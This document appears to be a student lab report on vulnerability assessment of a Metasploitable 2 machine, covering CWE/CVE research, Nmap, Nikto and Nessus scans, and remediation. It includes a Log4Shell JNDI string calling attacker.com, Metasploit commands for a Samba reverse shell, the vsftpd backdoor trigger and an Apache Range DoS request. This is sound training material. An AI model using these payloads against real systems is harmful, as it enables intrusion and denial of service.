# Vulnerability Research and Analysis

{: .no_toc }

## Table of Contents

{: .no_toc .text-delta }

1. TOC
   {:toc}

---

## Laboratory Context and Objectives

[Download PDF](../pdf/vulnerability-research-report.pdf){: .btn .btn-primary }

This laboratory presents a comprehensive methodology for identifying and analyzing vulnerabilities in controlled environments. The objective is to master professional scanning and security audit tools while developing an in-depth understanding of standardized vulnerability databases.

### Learning Objectives

- Conduct targeted searches in CWE and CVE databases
- Perform automated network scans using Nmap and Nikto
- Deploy and configure a professional audit platform (Nessus)
- Analyze and classify vulnerabilities according to the CVSS framework
- Produce technical remediation recommendations

### Technical Environment

| Component             | Specification                         |
| --------------------- | ------------------------------------- |
| **Audit Platform**    | Kali Linux 2023+                      |
| **Test Target**       | Vulnerable machine (Metasploitable 2) |
| **Scanning Tools**    | Nmap 7.x, Nikto 2.x                   |
| **Analysis Platform** | Tenable Nessus Professional           |

---

## Part 1: Vulnerability Database Exploitation

### 1.1 CWE Database Research (Common Weakness Enumeration)

The CWE database maintained by MITRE catalogs common software weakness types. This section presents an analysis of vulnerabilities related to the SMB (Server Message Block) protocol.

#### Research Methodology

1. Access the CWE MITRE portal (https://cwe.mitre.org)
2. Perform keyword search "SMB"
3. Analyze results and identify relevant CWEs
4. Document relationships between CWE and attack vectors

#### SMB Research Results

The research reveals several critical vulnerability classes:

| Identifier  | Classification                       | Primary Impact                                                |
| ----------- | ------------------------------------ | ------------------------------------------------------------- |
| **CWE-20**  | Improper Input Validation            | Exploitation via malformed SMB packets                        |
| **CWE-200** | Exposure of Sensitive Information    | Information leakage via obsolete protocols (SMBv1)            |
| **CWE-287** | Improper Authentication              | Bypass or absence of authentication                           |
| **CWE-522** | Insufficiently Protected Credentials | Transmission of credentials in clear text or weakly encrypted |
| **CWE-693** | Protection Mechanism Failure         | Insufficient security mechanisms (SMBv1, NTLMv1)              |

#### Detailed Analysis: CWE-287 – Improper Authentication

**Technical Description**

The SMB service does not properly validate authentication attempts, allowing a malicious actor to access shared resources without providing valid credentials or by exploiting weak authentication mechanisms.

**Exploitation Vectors**

- Null authentication (null session) enabled on SMB server
- Excessive permissions on network shares (access "Everyone")
- Use of obsolete authentication protocols (NTLMv1)
- Absence of server-side credential validation

**Security Consequences**

- Unauthorized access to network shares and file systems
- Exfiltration of sensitive data (documents, databases)
- Lateral movement within enterprise network
- Privilege escalation via exploitation of weak configurations

**Mitigation Measures**

- Complete deactivation of SMBv1 and migration to SMBv3
- Implementation of strong authentication (Kerberos, NTLMv2 minimum)
- Application of least privilege principle on ACLs
- Monitoring of suspicious authentication attempts


_Figure 1.1: CWE MITRE search interface - Results for "SMB"_

---

### 1.2 CVE Database Research (Common Vulnerabilities and Exposures)

#### Case Study: CVE-2021-44228 (Log4Shell)

This section analyzes one of the most critical vulnerabilities recently discovered, demonstrating the importance of continuous security monitoring.

**Vulnerability Technical Sheet**

| Attribute              | Value                                                 |
| ---------------------- | ----------------------------------------------------- |
| **CVE Identifier**     | CVE-2021-44228                                        |
| **Common Name**        | Log4Shell                                             |
| **Affected Component** | Apache Log4j2 versions 2.0-beta9 to 2.15.0 (excluded) |
| **Classification**     | Remote Code Execution (RCE) via JNDI Injection        |
| **CVSS v3.1 Score**    | 10.0 (Critical)                                       |
| **Publication Date**   | December 9, 2021                                      |

**Technical Vulnerability Analysis**

The Log4j2 library allows variable expansion in log messages via the syntax `${prefix:name}`. The JNDI (Java Naming and Directory Interface) functionality was not properly filtered, allowing arbitrary code execution.

**Exploitation Vector**

```java
// User-controlled data injected into logs
String userInput = "${jndi:ldap://attacker.com/malicious}";

// Log4j automatically resolves the JNDI expression
logger.info("User input: {}", userInput);

// Result: LDAP connection to attacker's server
// and loading of malicious Java bytecode
```

**Attack Chain**

1. Attacker injects a JNDI string into a controlled field (HTTP header, form, etc.)
2. Application logs this data via Log4j2
3. Log4j resolves the JNDI expression and contacts malicious LDAP server
4. LDAP server returns reference to malicious Java class
5. Log4j loads and executes arbitrary bytecode
6. Attacker obtains code execution in application context

**Patched Versions**

| Version       | Status              | Protection Measure                                     |
| ------------- | ------------------- | ------------------------------------------------------ |
| 2.15.0        | Initial patch       | JNDI disabled by default via `log4j2.enableJndi=false` |
| 2.16.0        | Reinforced patch    | Complete removal of JNDI Lookup support                |
| 2.17.0+       | Recommended         | Additional security fixes                              |
| 2.12.2, 2.3.1 | Maintained branches | Backport of fixes for older versions                   |

**CVE MITRE vs NVD (NIST) Comparison**

The CVE MITRE database provides the identifier and initial description, while NVD enriches this data with exploitability and impact information.

| Dimension                     | CVE MITRE        | NVD (NIST)                                    |
| ----------------------------- | ---------------- | --------------------------------------------- |
| **Description**               | Textual, concise | Detailed with technical references            |
| **CVSS Score**                | Provided         | Calculated and justified with complete vector |
| **Public Exploits**           | Not referenced   | Database of linked exploits                   |
| **Vulnerable Configurations** | Not specified    | Detailed CPE configurations                   |
| **Remediations**              | Generic links    | Detailed procedures, workarounds              |

**CVSS v3.1 Vector (NVD)**

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
```

Vector Breakdown:

- **AV:N** (Attack Vector: Network) - Exploitation via network without local access
- **AC:L** (Attack Complexity: Low) - No particular conditions required
- **PR:N** (Privileges Required: None) - No authentication necessary
- **UI:N** (User Interaction: None) - Automatic exploitation without interaction
- **S:C** (Scope: Changed) - Impact beyond vulnerable component
- **C:H** (Confidentiality: High) - Total compromise of confidentiality
- **I:H** (Integrity: High) - Total compromise of integrity
- **A:H** (Availability: High) - Total compromise of availability


_Figure 1.2: Detailed sheet of CVE-2021-44228 in NVD database_

---

## Part 2: Network Scanning and Vulnerability Detection

### 2.1 Network Reconnaissance with Nmap

Nmap (Network Mapper) is the reference tool for network mapping and service detection. This section presents a comprehensive scanning methodology.

#### Scanning Commands

**Complete Scan with Version and OS Detection**

```bash
# Aggressive scan with OS detection and versions
nmap -sV -O -A -p- <TARGET_IP>

# Detailed options:
# -sV: Service version detection
# -O: Operating system detection
# -A: Enable all advanced NSE scripts
# -p-: Scan all ports (1-65535)
```

**Vulnerability Scan with NSE Scripts**

```bash
# Execute vulnerability detection scripts
nmap --script vuln <TARGET_IP>

# Targeted scan on specific vulnerabilities
nmap --script "smb-vuln-*" <TARGET_IP>
```


_Figure 2.1: Nmap scan results on target_

#### Analysis of Exposed Services

The scan reveals several potentially vulnerable services:

| Port         | Protocol     | Service      | Version          | Risk Level | Justification                           |
| ------------ | ------------ | ------------ | ---------------- | ---------- | --------------------------------------- |
| **21/tcp**   | FTP          | vsftpd       | 2.3.4            | Critical   | Known backdoor (CVE-2011-2523)          |
| **22/tcp**   | SSH          | OpenSSH      | 4.7p1 Debian     | Medium     | Obsolete version, minor vulnerabilities |
| **80/tcp**   | HTTP         | Apache httpd | 2.2.8 (Ubuntu)   | High       | Multiple CVEs, range header DoS         |
| **139/tcp**  | NetBIOS-SSN  | Samba smbd   | 3.X              | Critical   | RCE possibility (CVE-2007-2447)         |
| **445/tcp**  | Microsoft-DS | Samba smbd   | 3.X              | Critical   | Same vulnerability as port 139          |
| **3306/tcp** | MySQL        | MySQL        | 5.0.51a-3ubuntu5 | Medium     | Old version, authentication flaws       |
| **5432/tcp** | PostgreSQL   | PostgreSQL   | 8.3.0 - 8.3.7    | Medium     | Obsolete version                        |
| **8009/tcp** | AJP13        | Apache Jserv | 1.3              | Medium     | Ghostcat vulnerability possible         |

**Technical Observations**

- Exposure of administrative services (MySQL, PostgreSQL) without network restriction
- Largely obsolete software versions (>10 years for some components)
- Presence of clear-text protocols (FTP, Telnet potentially)
- Default configuration not hardened (exposed version banners)


_Figure 2.2: Detail of services and versions identified by Nmap_

---

### 2.2 Web Security Audit with Nikto

Nikto is an open-source web vulnerability scanner for identifying configuration flaws and obsolete components.

#### Scan Execution

```bash
# Standard web server scan
nikto -h http://<TARGET_IP>

# Advanced options
nikto -h http://<TARGET_IP> -Tuning 123bde -Format htm -output report.html

# Tuning options:
# 1: Interesting files
# 2: Misconfiguration
# 3: Information disclosure
# b: Software injection
# d: Command injection
# e: XSS/Script injection
```

#### Summary of Detected Vulnerabilities

| Identified Vulnerability        | Type                     | Associated CVE | CVSS Score | Criticality |
| ------------------------------- | ------------------------ | -------------- | ---------- | ----------- |
| **Apache 2.2.8 (Ubuntu)**       | Obsolete software        | CVE-2011-3192  | 7.8        | High        |
| **PHP 5.2.4 exposed**           | Vulnerable version       | CVE-2007-4887  | 10.0       | Critical    |
| **Accessible phpinfo() file**   | Information disclosure   | CVE-2007-0405  | 5.0        | Medium      |
| **Directory listing enabled**   | Misconfiguration         | N/A            | 4.0        | Medium      |
| **HTTP TRACE method enabled**   | Cross-Site Tracing (XST) | CVE-2004-2763  | 4.3        | Medium      |
| **PHP Easter Eggs**             | Information disclosure   | OSVDB-12184    | 2.0        | Low         |
| **phpMyAdmin accessible**       | Admin interface exposure | CVE-2009-1151  | 7.5        | High        |
| **Absence of security headers** | Misconfiguration         | N/A            | 3.0        | Low         |

**Detailed Analysis by Vulnerability**

**1. Apache 2.2.8 - Range Header Vulnerability (CVE-2011-3192)**

- **Impact**: Denial of service via excessive memory consumption
- **Mechanism**: Exploitation of HTTP Range header to cause resource exhaustion
- **Available Exploit**: Metasploit module `auxiliary/dos/http/apache_range_dos`

**2. PHP 5.2.4 - Multiple Critical Vulnerabilities (CVE-2007-4887)**

- **Impact**: Remote code execution (RCE)
- **Mechanism**: Buffer overflow in `chunk_split()` function
- **Available Exploit**: Exploit-DB ID 4410

**3. Publicly Accessible phpinfo() File**

- **Impact**: Disclosure of complete PHP server configuration
- **Exposed Information**:
  - System paths and server directory tree
  - Environment variables and potential credentials
  - Loaded extensions and exact versions
  - Security parameters (disabled_functions, open_basedir)

**4. phpMyAdmin Without Access Restriction (CVE-2009-1151)**

- **Impact**: Brute force authentication, exploitation of phpMyAdmin vulnerabilities
- **Risk**: MySQL administration interface accessible from Internet
- **Exploit**: Attempted connection with default credentials (root/root, admin/admin)


_Figure 2.3: Detailed report of Nikto scan_

---

### 2.3 Correlation with Exploit Databases

This section presents the search for public exploits for identified vulnerabilities.

#### Publicly Available Exploits

| CVE               | Public Exploit | Source           | Attack Type                    | Exploitability Level         |
| ----------------- | -------------- | ---------------- | ------------------------------ | ---------------------------- |
| **CVE-2011-3192** | Available      | Metasploit       | Apache DoS (Range header)      | High (no authentication)     |
| **CVE-2007-4887** | Available      | Exploit-DB #4410 | PHP RCE (chunk_split overflow) | High (specific conditions)   |
| **CVE-2009-1151** | Available      | Exploit-DB #8921 | phpMyAdmin auth bypass         | Medium (specific version)    |
| **CVE-2004-2763** | Available      | Multiple         | XST (Cross-Site Tracing)       | Low (requires prior XSS)     |
| **CVE-2007-2447** | Available      | Metasploit       | Samba RCE (username field)     | Critical (no authentication) |

**Exploitation Example: Samba CVE-2007-2447**

```bash
# Using Metasploit module
msfconsole
use exploit/multi/samba/usermap_script
set RHOST <TARGET_IP>
set PAYLOAD cmd/unix/reverse
set LHOST <ATTACKER_IP>
exploit
```

---

### 2.4 Corrective Measures and Recommendations

This section presents technical remediations in priority order.

#### Critical Actions (deadline: 24-48h)

**1. Apache Server Update**

```bash
# Ubuntu/Debian
apt-get update
apt-get install apache2=2.4.52-1ubuntu4

# Version verification
apache2 -v
```

**2. PHP Update**

```bash
# Migration to PHP 8.1 (current stable version)
apt-get install php8.1 php8.1-cli php8.1-common

# Deactivate PHP 5.2
a2dismod php5
a2enmod php8.1
systemctl restart apache2
```

**3. Removal of Sensitive Information Files**

```bash
# Remove phpinfo.php
rm /var/www/html/phpinfo.php

# Verify absence of other test files
find /var/www -name "test.php" -o -name "info.php" -delete
```

**4. Samba Update**

```bash
# Install latest stable version
apt-get install samba=2:4.15.5+dfsg-0ubuntu1

# Restart services
systemctl restart smbd nmbd
```

#### Configuration Actions (deadline: 1 week)

**5. Disable HTTP TRACE Method**

```apache
# File: /etc/apache2/apache2.conf
TraceEnable Off

# Apply configuration
systemctl reload apache2
```

**6. Restrict Access to phpMyAdmin**

```apache
# File: /etc/apache2/conf-available/phpmyadmin.conf
<Directory /usr/share/phpmyadmin>
    # IP restriction
    Require ip 192.168.1.0/24
    Require ip 10.0.0.0/8

    # Additional HTTP Basic authentication
    AuthType Basic
    AuthName "Restricted Area"
    AuthUserFile /etc/apache2/.htpasswd
    Require valid-user
</Directory>
```

**7. Disable Directory Listing**

```apache
# File: /etc/apache2/sites-available/000-default.conf
<Directory /var/www/html>
    Options -Indexes +FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>
```

**8. Implement HTTP Security Headers**

```apache
# File: /etc/apache2/conf-available/security-headers.conf
<IfModule mod_headers.c>
    Header always set X-Frame-Options "SAMEORIGIN"
    Header always set X-Content-Type-Options "nosniff"
    Header always set X-XSS-Protection "1; mode=block"
    Header always set Strict-Transport-Security "max-age=31536000; includeSubDomains"
    Header always set Referrer-Policy "strict-origin-when-cross-origin"
    Header always set Content-Security-Policy "default-src 'self'"
</IfModule>

# Enable module and configuration
a2enmod headers
a2enconf security-headers
systemctl reload apache2
```

#### Hardening Actions (deadline: 1 month)

**9. Disable Unnecessary Services**

```bash
# Identify active services
systemctl list-units --type=service --state=running

# Disable unused services
systemctl stop vsftpd
systemctl disable vsftpd
```

**10. Configure Application Firewall (UFW)**

```bash
# Enable firewall
ufw enable

# Basic rules
ufw default deny incoming
ufw default allow outgoing

# Allow only legitimate services
ufw allow 22/tcp comment 'SSH'
ufw allow 443/tcp comment 'HTTPS'

# Apply
ufw reload
```

---

## Part 3: Professional Analysis with Nessus

### 3.1 Tenable Nessus Deployment

Nessus is the most widely used vulnerability audit platform in enterprise environments. This section presents its installation and configuration.

#### Installation on Kali Linux

```bash
# Download Debian package
wget https://www.tenable.com/downloads/api/v1/public/pages/nessus/downloads/[VERSION]/Nessus-[VERSION]-debian10_amd64.deb

# Install package
dpkg -i Nessus-[VERSION]-debian10_amd64.deb

# Resolve dependencies if necessary
apt-get install -f
```


_Figure 3.1: Download of Nessus installer_

#### Service Startup and Verification

```bash
# Start Nessus daemon
systemctl start nessusd

# Enable at boot
systemctl enable nessusd

# Verify status
systemctl status nessusd

# Verify network listening
netstat -tlnp | grep 8834
```


_Figure 3.2: Nessus package installation completed_

**Web Interface Access**

The administration interface is accessible at `https://localhost:8834`. The service uses a self-signed certificate that must be accepted.


_Figure 3.3: Nessus service started and operational_

---

### 3.2 Initial Configuration and Activation

#### Obtaining a Nessus Essentials License

Nessus offers a free version (Essentials) limited to 16 IP addresses, sufficient for laboratory audits.

**Activation Process**

1. Retrieve a temporary email address on temp-mail.org


_Figure 3.4: Generation of temporary email address_

2. Register on Tenable site with temporary email
3. Receive activation code by email


_Figure 3.5: Nessus activation code received by email_

4. Create platform administrator credentials


_Figure 3.6: Configuration of administrator credentials_

#### Initial Plugin Download

After activation, Nessus automatically downloads its vulnerability plugin database (approximately 2 GB). This process may take 15-30 minutes depending on network connection.

**Plugin Categories**

- Network services: Service and version detection
- Web applications: Application vulnerabilities (XSS, SQL injection, etc.)
- Databases: DBMS flaws (MySQL, PostgreSQL, Oracle, etc.)
- Operating systems: OS vulnerabilities (Windows, Linux, Unix)
- Policy compliance: Compliance verification (CIS, PCI-DSS, etc.)

---

### 3.3 Scan Configuration and Execution

#### Creating a New Scan

The Nessus interface offers several scan templates adapted to different contexts.


_Figure 3.7: Interface for creating a new scan_

**Available Templates**

| Template                        | Usage                             | Estimated Duration | Intrusion Level |
| ------------------------------- | --------------------------------- | ------------------ | --------------- |
| **Basic Network Scan**          | Non-intrusive general scan        | 30-60 min          | Low             |
| **Advanced Scan**               | Custom configuration              | Variable           | Configurable    |
| **Credentialed Patch Audit**    | Compliance audit with credentials | 60-120 min         | None            |
| **Web Application Tests**       | Specific web application tests    | 30-90 min          | Medium          |
| **PCI Quarterly External Scan** | PCI-DSS compliance                | 45-90 min          | Low             |

#### Scan Configuration

**Basic Parameters**

- **Scan name**: "Metasploitable Vulnerability Assessment"
- **Target**: 192.168.1.100
- **Type**: Basic Network Scan
- **Schedule**: Immediate execution

**Advanced Parameters (optional)**

- **Port scan range**: 1-65535 (all ports)
- **Network port scanners**: TCP SYN scan
- **Port scan speed**: Normal (default)
- **Max simultaneous checks**: 5 (default)


_Figure 3.8: Configuration of scan parameters_

#### Scan Launch and Monitoring

Once configured, the scan is launched and can be monitored in real-time via the web interface. Intermediate metrics are displayed:

- Completion percentage
- Number of scanned ports
- Number of detected vulnerabilities (by criticality)
- Elapsed and estimated remaining time

---

### 3.4 Results Analysis

#### Vulnerability Overview


_Figure 3.9: Main results dashboard_

**Vulnerability Distribution by Criticality**

| Criticality Level | Number | Percentage | CVSS Definition |
| ----------------- | ------ | ---------- | --------------- |
| **Critical**      | 10     | 20%        | CVSS 9.0-10.0   |
| **High**          | 32     | 64%        | CVSS 7.0-8.9    |
| **Medium**        | 8      | 16%        | CVSS 4.0-6.9    |
| **Low**           | 0      | 0%         | CVSS 0.1-3.9    |
| **Info**          | 15     | -          | CVSS 0.0        |
| **Total**         | **50** | **100%**   | -               |


_Figure 3.10: Graphical distribution of vulnerabilities by severity level_

**Quantitative Analysis**

The analyzed machine presents an extremely high risk profile:

- 42 vulnerabilities of "Critical" or "High" level (84% of total)
- 10 vulnerabilities allowing remote code execution (RCE)
- Obsolete services dating from more than 10 years
- Default configuration not hardened

**Technical Conclusion**: The audited system corresponds to a deliberately vulnerable environment (Metasploitable type), designed for offensive security training.

---

#### Top 3 Critical Vulnerabilities


_Figure 3.11: List of detected critical vulnerabilities_

**1. Samba "username map script" Command Execution**

| Attribute           | Value                      |
| ------------------- | -------------------------- |
| **Plugin ID**       | 25216                      |
| **CVE**             | CVE-2007-2447              |
| **CVSS Base Score** | 10.0 (Critical)            |
| **CVSS Vector**     | AV:N/AC:L/Au:N/C:C/I:C/A:C |
| **Affected Port**   | 139/tcp, 445/tcp           |
| **Service**         | Samba smbd 3.0.20-Debian   |

**Technical Description**

The `MS-RPC` function of Samba allows shell command injection via the unsanitized username field. An attacker can execute arbitrary code with Samba daemon privileges (typically root).

**Proof of Concept**

```bash
# Exploitation via Metasploit
use exploit/multi/samba/usermap_script
set RHOST 192.168.1.100
set PAYLOAD cmd/unix/reverse
set LHOST <ATTACKER_IP>
exploit

# Expected result: root shell on target
```

**Recommended Solution**

- Immediate update to Samba >= 3.0.25rc3
- If update is impossible: complete deactivation of SMB service
- Network isolation pending remediation

---

**2. vsftpd 2.3.4 Backdoor Command Execution**

| Attribute           | Value                      |
| ------------------- | -------------------------- |
| **Plugin ID**       | 53671                      |
| **CVE**             | CVE-2011-2523              |
| **CVSS Base Score** | 10.0 (Critical)            |
| **CVSS Vector**     | AV:N/AC:L/Au:N/C:C/I:C/A:C |
| **Affected Port**   | 21/tcp                     |
| **Service**         | vsftpd 2.3.4               |

**Technical Description**

A backdoor was introduced in version 2.3.4 of vsftpd available on the official site between February and July 2011. Authentication with a username containing `:)` activates a root shell on port 6200.

**Proof of Concept**

```bash
# FTP connection with backdoor trigger
telnet 192.168.1.100 21
USER test:)
PASS anything

# Connection to backdoor shell
telnet 192.168.1.100 6200
# Root shell available
```

**Recommended Solution**

- Immediate replacement with legitimate version of vsftpd >= 3.0.3
- Verification of integrity of all system binaries
- Complete system audit to detect potential compromises

---

**3. Apache HTTP Server Byte Range DoS**

| Attribute           | Value                      |
| ------------------- | -------------------------- |
| **Plugin ID**       | 55976                      |
| **CVE**             | CVE-2011-3192              |
| **CVSS Base Score** | 7.8 (High)                 |
| **CVSS Vector**     | AV:N/AC:L/Au:N/C:N/I:N/A:C |
| **Affected Port**   | 80/tcp, 443/tcp            |
| **Service**         | Apache httpd 2.2.8         |

**Technical Description**

Apache 2.2.x before 2.2.20 does not properly limit the number of ranges requested in the HTTP Range header, allowing server memory exhaustion via specially crafted requests.

**Proof of Concept**

```bash
# Send malformed Range request
curl -H "Range: bytes=0-1024,1025-2048,2049-3072,..." \
     --max-time 5 http://192.168.1.100/largefile.bin

# Repeat request to consume memory
```

**Recommended Solution**

- Update to Apache >= 2.2.20 or >= 2.4.1
- Apply mod_reqtimeout patch as temporary mitigation
- Implement rate limiting at reverse proxy level

---

#### Detailed Remediations


_Figure 3.12: Remediation recommendations by Nessus_

**Prioritized Remediation Plan**

The table below presents corrective actions classified by priority according to risk score (criticality × exploitability).

| Priority | Action             | Component            | Deadline | Operational Impact                         |
| -------- | ------------------ | -------------------- | -------- | ------------------------------------------ |
| **P0**   | Samba update       | smbd 3.0.20 → 4.15+  | 24h      | SMB service interruption (30 min)          |
| **P0**   | vsftpd replacement | 2.3.4 → 3.0.3+       | 24h      | FTP service interruption (15 min)          |
| **P1**   | Apache update      | 2.2.8 → 2.4.52+      | 48h      | HTTP service interruption (45 min)         |
| **P1**   | PHP migration      | 5.2.4 → 8.1.x        | 48h      | Application compatibility testing required |
| **P2**   | OpenSSH update     | 4.7p1 → 8.9p1+       | 1 week   | SSH interruption (10 min)                  |
| **P2**   | MySQL hardening    | Secure configuration | 1 week   | No interruption                            |
| **P3**   | WAF implementation | mod_security2        | 2 weeks  | No interruption                            |
| **P3**   | IDS deployment     | Snort/Suricata       | 1 month  | Network configuration required             |

**Complementary Configuration Actions**

In parallel with software updates, the following measures must be implemented:

1. **Network Segmentation**
   - Server isolation in dedicated VLAN
   - Strict ACLs on perimeter firewall
   - Prohibition of direct access from Internet

2. **System Hardening**
   - Deactivation of unnecessary services
   - Application of CIS Linux benchmarks
   - Configuration of SELinux/AppArmor in enforcing mode

3. **Monitoring and Detection**
   - Deployment of HIDS agent (OSSEC/Wazuh)
   - Log centralization (Syslog/ELK)
   - Alerting on exploitation attempts

4. **Patch Management**
   - Implementation of patch management process
   - Testing in pre-production environment
   - Automated deployment via Ansible/Puppet

---

### 3.5 History and Reports


_Figure 3.13: Interface of executed scan history_

**Reporting Functionality**

Nessus allows export of results in several formats:

- **PDF**: Executive report for management
- **HTML**: Detailed technical report
- **CSV**: Import into vulnerability management tools
- **Nessus DB**: Proprietary format for archiving

**Continuous Audit Workflow Example**

```
Initial scan (D0) → Vulnerability identification
     ↓
Prioritization (D+1) → Classification by criticality/impact
     ↓
Remediation (D+2 to D+30) → Patch deployment
     ↓
Verification scan (D+31) → Remediation validation
     ↓
Compliance report → Security posture documentation
```

---

## Conclusion and Lessons Learned

### Results Summary

The security audit conducted identified 50 distinct vulnerabilities on the target system, including:

- **10 critical vulnerabilities** (CVSS 9.0-10.0) allowing remote code execution without authentication
- **32 high vulnerabilities** (CVSS 7.0-8.9) mainly related to obsolete software versions
- **8 medium vulnerabilities** (CVSS 4.0-6.9) resulting from non-hardened configurations

**Main Attack Vectors Identified**

1. Exploitation of known backdoors (vsftpd, Samba)
2. Abuse of obsolete versions with available public exploits
3. Disclosure of sensitive information facilitating reconnaissance
4. Absence of defense-in-depth mechanisms

### Technical Skills Acquired

This laboratory allowed development of the following competencies:

**Vulnerability Research**

- Exploitation of CVE, CWE and NVD databases
- Understanding of CVSS scoring system
- Search for public exploits in Exploit-DB and Metasploit

**Scanning Tools**

- Mastery of Nmap for network mapping
- Use of Nikto for web server audit
- Deployment and configuration of Nessus Professional

**Analysis and Remediation**

- Vulnerability prioritization according to impact and exploitability
- Proposal of technical corrective measures
- Understanding of operational deadlines and impacts

### Strategic Recommendations

**For the Organization**

1. Implement formalized vulnerability management process
2. Establish remediation SLAs by criticality level
3. Deploy automated weekly scans
4. Train teams on security hardening best practices

**For Training Continuity**

Recommended next steps include:

- Practical exploitation laboratory with Metasploit Framework
- Post-compromise forensic analysis
- Development of detection rules (Snort/Suricata)
- Participation in Bug Bounty programs

---

## Technical References

### Standards and Frameworks

- NIST SP 800-115 - Technical Guide to Information Security Testing and Assessment
- OWASP Testing Guide v4.2
- PTES (Penetration Testing Execution Standard)
- CIS Benchmarks for Linux Server Hardening
- MITRE ATT&CK Framework

### Vulnerability Databases

- [NIST National Vulnerability Database (NVD)](https://nvd.nist.gov/)
- [MITRE CVE List](https://cve.mitre.org/)
- [MITRE CWE List](https://cwe.mitre.org/)
- [Exploit Database](https://www.exploit-db.com/)
- [Packet Storm Security](https://packetstormsecurity.com/)

### Tool Documentation

- [Nmap Reference Guide](https://nmap.org/book/toc.html)
- [Nikto Documentation](https://github.com/sullo/nikto/wiki)
- [Nessus User Guide](https://docs.tenable.com/nessus/Content/GetStarted.htm)
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

---

**Laboratory Conducted by**: Issa MENTA  
**Date of Completion**: 2026  
**Environment**: Kali Linux 2023.4 / Metasploitable 2  
**Category**: SOC & Detection Engineering  
**Difficulty Level**: Intermediate
